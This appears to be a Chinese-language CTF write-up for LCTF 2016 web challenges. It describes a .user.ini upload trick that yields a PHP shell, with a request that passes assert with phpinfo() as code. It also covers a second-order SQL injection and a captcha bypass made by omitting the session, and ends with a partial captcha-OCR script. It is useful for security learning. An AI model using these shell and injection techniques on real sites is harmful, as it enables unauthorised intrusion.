 跑一跑就好了，然后到了文件上传


上传一个.user.ini
![](/img/lctf2016/1.png)

上传一个同名文件

![](/img/lctf2016/2.png)

get shell

```
http://web.l-ctf.com:14144/upload_12b1d89eb3a43eb6220b5952a5a13785/upload/index.php?a=assert

Post: fuckddog=phpinfo();
```

## Headpic ##

这题基本做了我一个下午一个晚上...最气的是这题的第一第二步完全分离，所以我们做了第二步后，在flag前面等了好久，一直到tips放了才反应过来是做错了顺序...只可惜本来是能拿一血，最后堪堪拿下3血┑(￣Д ￣)┍...

### 二次注入 ###

看到这个提示的时候我一直是蒙蔽的，因为在我的观点里，题目应该是ssrf...

仔细分析题目逻辑：

注册（insert）->登陆(select)->登陆后给一个头像地址（存在？select?还是注册就默认插入了）->修改头像（update）

知道做出来我都不能肯定是不是存在第三部分，但是测试发现第四步确实存在，而且update时的where条件是username = $user,这里存在二次注入。

那么问题来了...这里的判断条件必须请求修改后的头像内容，来判断盲注请求是否成功，也就是说，每次注入我们都必须请求4次，还是盲注，当然这里还有个问题就是验证码的问题

- 绕过验证码

这里还是蓝猫师傅抬了我一手，当时我正在研究绕过验证码的，蓝猫师傅告诉我，如果你不带session去登陆注册的话，验证码的判定就没用了。

这里也很好理解，一般写代码的人只考滤正常人的请求方式，

代码一般长这样
```
if(!isset($_SESSION)){
	设置session，
	然后跳回
}
```
这样不带着session去登陆注册就可以了。


下面就是编写脚本时间了，由于和平时的盲注不一样，我自己写的工具用不上，所以没办法，我只能自己又写了一个脚本，这样没有二分法，所以每次个字母都要100次请求，所以全程注入都在只能改脚本，跳过各种单词，还算友好的是并没有修改一些单词，还可以

```
import requests
from bs4 import BeautifulSoup
import base64
import Queue
import threading

def code(s):
	url = "http://web.l-ctf.com:55533/verify.php"
	cookies = {"PHPSESSID": "ljf888c57d6pd9qrcltgrsadd2"}

	code = s.get(url, cookies=cookies)
	with open("code.png", "wb") as ff:
		ff.write(code.content)

	img = Image.open("code.png")
	code_string = pytesseract.image_to_string(img)
```